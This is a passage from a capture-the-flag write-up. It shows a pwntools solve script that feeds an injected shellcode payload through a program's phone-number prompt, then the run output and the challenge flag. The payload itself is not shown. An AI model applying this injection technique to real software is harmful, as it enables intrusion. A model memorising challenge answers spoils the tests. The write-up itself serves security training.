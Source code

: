 ```python

p = process(["runtime", "program.prg"])

p.sendlineafter(b"3. exit\n", b"1")
p.sendlineafter(b"enter first name: ", b"")
p.sendlineafter(b"enter last name: ", b"")
p.sendlineafter(b"enter phone: ", payload)
print(p.readall())
```

Running this, will give us the flag.

```bash
$ python solve.py
[+] Opening connection to localhost on port 54321: Done
[+] Receiving all data: Done (85B)
[*] Closed connection to localhost port 54321
b'\x00INTIGRITI{1nj3c71n6_5h3llc0d3_1n_7h3_805}\x00INTIGRITI{1nj3c71n6_5h3llc0d3_1n_7h3_805}\x00'
```

Flag `INTIGRITI{1nj3c71n6_5h3llc0d3_1n_7h3_805}`